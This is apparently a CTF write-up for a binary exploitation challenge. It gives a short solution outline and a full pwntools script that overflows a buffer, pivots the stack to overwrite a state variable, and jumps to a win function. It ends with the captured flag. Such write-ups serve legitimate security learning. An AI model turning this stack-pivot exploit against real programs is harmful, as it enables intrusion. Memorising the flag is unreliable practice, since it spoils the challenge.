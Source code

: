 Solved by: @w6rstaimn

### Question:
Changes in state are like rustlings in the wind
### Solution:
1. pivot to the data section then overwrite the state variable and call the win function
2. overwrites the saved rbp with new_rbp = state_addr + 15 overwrites the return address with vuln()+8 
3. when leave executes, rsp=rbp 
4. second fgets() will write data into state_addr + 15 addr pad 16 bytes, overwrite state, pad more, call win func

```python
from pwn import *
import time

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

gdbscript = '''
init-pwndbg
break *vuln+8
continue
'''.format(**locals())

exe = './chall'
elf = context.binary = ELF(exe,checksec=True)
context.log_level = 'debug'

io = start()

offset  = 32


state_addr = elf.symbols['state']
vuln_addr   = elf.symbols['vuln']     
win_addr    = elf.symbols['win']       

log.info("state address: " + hex(state_addr))
log.info("vuln address:  " + hex(vuln_addr))
log.info("win address:   " + hex(win_addr))

new_rbp = state_addr + 15
vuln_plus8 = vuln_addr + 8
new_state = 0xf1eeee2d
log.info("new_rbp: " + hex(new_rbp))
log.info("vuln_plus8:  " + hex(vuln_plus8))

payload = flat([
    b"A" * 32,
    p64(new_rbp),
    p64(vuln_plus8)
])


io.recvuntil(b'you?')
io.send(payload)

payload2 = flat([
    p64(0x1)*2, 
    p32(new_state),
    p8(0x2)*(19),
    p64(win_addr)
])

io.sendlineafter(b'?',payload2)

print(io.recv())
io.interactive()
```

**Flag:**`lactf{1s_tHi5_y0Ur_1St_3vER_p1VooT}`

